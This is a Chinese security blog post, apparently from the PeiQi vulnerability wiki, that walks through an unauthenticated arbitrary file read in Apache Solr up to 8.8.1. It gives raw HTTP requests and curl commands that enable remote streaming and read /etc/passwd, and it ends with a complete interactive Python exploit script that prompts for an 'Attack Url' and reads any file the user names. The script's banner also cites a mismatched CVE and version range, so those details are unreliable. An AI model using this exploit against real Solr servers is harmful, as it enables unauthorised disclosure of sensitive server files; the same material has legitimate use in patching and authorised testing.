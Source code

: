 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/2D3bLaUVD6Lz7VqRu8dOGA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件

**二:  漏洞影响🐇**

**Apache Solr <= 8.8.1**

**三:  漏洞复现🐋**

**访问 Solr Admin 管理员页面**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el64rRLVwxr8OFmJJ8QfRlrOF9j6yibMKuhtuZ81sHwF9repsOjQ9RyxH4svkM9W0W3OXibOCicug9YgA/640?wx_fmt=png)

获取 core 的信息  

```
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el64rRLVwxr8OFmJJ8QfRlrOWt9YsL9R1HqF3qDNJteR6FNO3AE63GkfoicDVFbuHDNrDMWH3RNSapw/640?wx_fmt=png)

发送请求

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el64rRLVwxr8OFmJJ8QfRlrOBBTefXg9M3svDricSaLmoIiaX65dEjaqA4yITsq0jVYaBQmUBQucHzNg/640?wx_fmt=png)

请求包如下

```
POST /solr/ckan/config HTTP/1.1
Host: xxx.xxx.xxx:8983
Content-Length: 99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://118.31.46.134:8983
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el64rRLVwxr8OFmJJ8QfRlrOb3W7mQmffS7icTCrLfQoCgMqedPMgCRHe4eQkKBYMgtrhgia4tWsWuyQ/640?wx_fmt=png)

```
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el64rRLVwxr8OFmJJ8QfRlrObxBTqjfYGrDiacc8ArfDx1cnZpd4vWKIsTxv82UzNIkwhcfUKQ5fiaxw/640?wx_fmt=png)

```
Curl请求为
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'
curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"
```

****四:  漏洞 POC🦉****

```
POC还是建立在未授权访问的情况下
```

```
import requests
import sys
import random
import re
import base64
import time
from lxml import etree
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech           \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0        \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                        \033[0m')
    print('+  \033[34mVersion: Apache Solr < 8.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2019-0193.py       \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8983  \033[0m')
    print('+  \033[36mFile   >>> 文件名称或目录                  \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-type":"application/json"
    }
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
        if "This" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, core_name, File_name):
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'stream.url=file://{}'.format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if "No such file or directory" in response.text:    
            print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
        else:
            print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)
    while True:
        File_name = str(input("\033[35mFile >>> \033[0m"))
        POC_3(target_url, core_name, File_name)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el64rRLVwxr8OFmJJ8QfRlrO51iaBThiaQNJdFAHmUbiaqYgibMrQD79FUFd4OqmE7kzUibib4eDKYf9S0RQ/640?wx_fmt=png)

**四:  参考文章🐋**
--------------

[https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098142&idx=1&sn=b025147c7c4855801a1132d0e41f0e6e&scene=21#wechat_redirect)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~  
> 
> 别忘了 Github 下载完给个小星星⭐
> 
> https://github.com/PeiQi0/PeiQi-WIKI-POC

公众号